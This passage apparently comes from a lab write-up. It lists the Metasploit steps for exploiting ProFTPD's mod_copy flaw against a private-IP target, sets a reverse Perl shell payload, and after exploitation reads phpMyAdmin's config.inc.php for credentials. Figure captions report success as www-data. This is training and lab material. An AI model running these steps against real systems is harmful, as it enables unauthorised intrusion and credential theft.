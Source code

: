 systemctl start postgresql

msfdb init

`msfconsole`

`search` proftpd

`use` `exploit`/unix/ftp/proftpd_modcopy_exec

`show` options

`set` `RHOSTS` 192.168.0.100

`set` `SITEPATH` /var/www/html

`set` `RPORT_FTP` 21

`set` `LHOST` 192.168.0.100

`show` payloads

`set` `PAYLOAD` cmd/unix/reverse_perl

`exploit`

`whoami`

`ls` -l

`shell`

`cat` /var/www/html/phpmyadmin/config.inc.php

`exit`

Screenshot of the results:


![Screenshot 6](images/im6.png)
> Figure 2.0 Starting PostgreSQL server and initializing the Metasploitable Framework Database.


![Screenshot 7](images/im7.png)
> Figure 2.1 Successfully got in the Metasploitable Framework Database.


![Screenshot 8](images/im8.png)
> Figure 2.2 Searching for the target proFTPD.


![Screenshot 9](images/im9.png)
> Figure 2.3

![Screenshot 10](images/im10.png)
> Figure 2.4 Setting the target host, port, and looking for available payloads.


![Screenshot 11](images/im11.png)
> Figure 2.5 Successful exploitation; `whoami` outputted www-data.
